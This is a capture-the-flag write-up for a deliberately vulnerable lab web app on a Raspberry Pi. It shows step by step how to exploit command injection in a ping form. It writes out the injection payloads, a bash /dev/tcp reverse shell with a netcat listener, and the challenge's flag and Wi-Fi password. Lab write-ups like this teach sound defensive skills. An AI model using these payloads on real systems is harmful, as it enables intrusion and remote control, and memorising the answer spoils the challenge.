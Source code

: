 # WebShell Woes Challenge Write-Up

## Overview
**Challenge Name**: WebShell Woes  
**Difficulty**: Medium  
**Category**: Web Security  
**Goal**: Exploit a command injection vulnerability in a web application to achieve remote code execution and retrieve a flag.

## What You’ll Need
- Browser or `curl` for HTTP requests.
- Command-line tools (e.g., `bash`, `netcat` for optional reverse shell).
- Wi-Fi client (SSID: `DVRPI`, password: `dvrpiconnect`).
- Optional: UART-to-USB adapter (GPIO 8: TX, 10: RX, 6: Ground; 115200 baud) and terminal emulator (`minicom`) for debugging.

## Challenge Description
A web server (`http://192.168.4.1:8080`) hosts a Python Flask application with a network diagnostic tool vulnerable to command injection. Exploit the vulnerability to execute arbitrary commands as the `webuser` user and retrieve the flag stored in an environment variable.

## How to Solve It
1. **Connect to Wi-Fi**:
   - Join the SSID `DVRPI` with the password `dvrpiconnect` to obtain an IP in the range `192.168.4.100-150`.
   - Verify connectivity:
     ```bash
     ping 192.168.4.1
     ```

2. **Explore the Web Application**:
   - Access the web app at `http://192.168.4.1:8080` using a browser or `curl`:
     ```bash
     curl http://192.168.4.1:8080
     ```
   - Observe the "Ping" form for entering an IP address and a "Login" form (admin-only).
   - Read the hints file:
     ```bash
     curl http://192.168.4.1:8080/README.txt
     ```
     - Note the suggestion to check input handling and environment variables.

3. **Test the Ping Endpoint**:
   - Submit a legitimate ping request via the `/ping` endpoint:
     ```bash
     curl -X POST -d "ip=127.0.0.1" http://192.168.4.1:8080/ping
     ```
     - Output shows the result of `ping -c 1 127.0.0.1`.

4. **Exploit Command Injection**:
   - Test for command injection by appending a command:
     ```bash
     curl -X POST -d "ip=127.0.0.1; whoami" http://192.168.4.1:8080/ping
     ```
     - Output includes `webuser`, confirming remote code execution.
   - Retrieve the flag from the `FLAG` environment variable:
     ```bash
     curl -X POST -d "ip=127.0.0.1; printenv FLAG" http://192.168.4.1:8080/ping
     ```
     - Output: `flag{DVRPi:RCE_WEBSHELL_WOES}`.

5. **Optional: Establish a Reverse Shell**:
   - Set up a listener on your machine:
     ```bash
     nc -lvnp 4444
     ```
   - Inject a reverse shell command:
     ```bash
     curl -X POST -d "ip=127.0.0.1; bash -i >& /dev/tcp/<your-ip>/4444 0>&1" http://192.168.4.1:8080/ping
     ```
   - In the `netcat` session, run:
     ```bash
     printenv FLAG
     ```
     - Output: `flag{DVRPi:RCE_WEBSHELL_WOES}`.

6. **Submit Flag**:
   - SSH into the DVRPi as `root` (if permitted):
     ```bash
     ssh root@192.168.4.1
     ```
     - Password: Not disclosed in challenge; assume provided by CTF organizers.
   - Submit the flag:
     ```bash
     /usr/local/bin/submit_flag.sh flag{DVRPi:RCE_WEBSHELL_WOES}
     ```

## What You Learn
- Identifying and exploiting command injection vulnerabilities in web applications.
- Interacting with environment variables in a Linux process.
- Crafting payloads for remote code execution and reverse shells.
- Importance of input sanitization in web development.

## Notes
- **Red Herring**: The `/login` endpoint appears vulnerable to authentication bypass or SQL injection but is non-exploitable, distracting from the command injection.
- **UART Access**: Physical access via UART (GPIO pins 8, 10, 6; 115200 baud) allows `root` login with a password, but the flag is not stored in a file and is only accessible via the web app’s environment variable.
- **Wi-Fi AP**: Static IP `192.168.4.1`, DHCP range `192.168.4.100-150`.
- **Service Logs**: Check Flask app status with:
  ```bash
  journalctl -u dvrpi-web
  ```
- **GPIO Warning**: Ensure UART pins are correctly connected to avoid hardware issues.